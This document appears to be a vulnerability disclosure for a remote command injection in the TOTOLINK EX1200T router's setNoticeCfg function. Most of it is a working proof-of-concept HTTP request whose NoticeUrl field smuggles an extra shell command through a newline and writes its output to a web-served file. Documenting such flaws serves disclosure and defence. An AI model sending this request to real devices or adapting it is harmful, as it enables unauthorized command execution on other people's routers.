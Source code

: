 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setNoticeCfg` of the file `lib/cste_modules/system.so` , we can control the`NoticeUrl` to attack.

![image-20211019163103730](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163103730.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setNoticeCfg",
"NoticeEnabled":"1",
"NoticeUrl":"1.1.1.1\nps>/web_cste/test1\necho",
"BtnName":"Click here to continue",
"NoticeTimeoutVal":"120"
}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)
